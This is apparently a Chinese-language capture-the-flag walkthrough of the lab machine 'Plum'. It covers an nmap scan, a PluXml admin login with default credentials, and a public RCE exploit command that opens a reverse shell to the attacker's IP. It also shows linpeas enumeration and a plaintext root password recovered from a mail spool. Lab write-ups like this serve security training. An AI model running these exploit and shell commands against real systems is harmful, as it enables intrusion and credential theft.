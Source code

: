 #  PG_Plum   
原创 EuSRC安全实验室  EuSRC安全实验室   2025-04-12 03:30  
  
信息收集：  
```
root@iZt4nbifrvtk7cy11744y4Z:~# nmap -p- -Pn -A -sS -T4 192.168.233.28Starting Nmap 7.80 ( https://nmap.org ) at 2025-02-28 20:29 CSTNmap scan report for 192.168.233.28Host is up (0.0025s latency).Not shown: 65533 closed portsPORT   STATE SERVICE VERSION22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)80/tcp open  http    Apache httpd 2.4.56 ((Debian))|_http-server-header: Apache/2.4.56 (Debian)|_http-title: PluXml - Blog or CMS, XML powered !No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).TCP/IP fingerprint:OS:SCAN(V=7.80%E=4%D=2/28%OT=22%CT=1%CU=33606%PV=Y%DS=4%DC=T%G=Y%TM=67C1AC4OS:3%P=x86_64-pc-linux-gnu)SEQ(SP=106%GCD=1%ISR=108%TI=Z%CI=Z%II=I%TS=A)OPSOS:(O1=M54EST11NW7%O2=M54EST11NW7%O3=M54ENNT11NW7%O4=M54EST11NW7%O5=M54EST1OS:1NW7%O6=M54EST11)WIN(W1=FE88%W2=FE88%W3=FE88%W4=FE88%W5=FE88%W6=FE88)ECNOS:(R=Y%DF=Y%T=40%W=FAF0%O=M54ENNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AOS:S%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(ROS:=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%FOS:=R%O=%RD=0%Q=)T7(R=N)U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%OS:RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=S)Network Distance: 4 hopsService Info: OS: Linux; CPE: cpe:/o:linux:linux_kernelTRACEROUTE (using port 8888/tcp)HOP RTT     ADDRESS1   1.84 ms 192.168.45.12   1.84 ms 192.168.45.2543   2.40 ms 192.168.251.14   2.65 ms 192.168.233.28OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .Nmap done: 1 IP address (1 host up) scanned in 27.44 seconds
```  
  
开放了80的http端口  
  
  
页面下面有管理登录  
  
  
使用admin/admin成功登录系统，确定版本号PluXml 5.8.7  
  
  
使用exp：https://github.com/erlaplante/pluxml-rce/blob/main/pluxml.py  
  
成功反弹shell  
```
python3 exp.py http://192.168.233.28/ admin admin 192.168.45.184 8000
```  
  
  
拿到local  
  
  
通过linpeas.sh发现mail下面的文件近期被修改过  
  
  
/var/mail/www-data  
找到了root密码  
```
root:6s8kaZZNaZZYBMfh2YEW
```  
  
  
拿到proof  
  
  
  
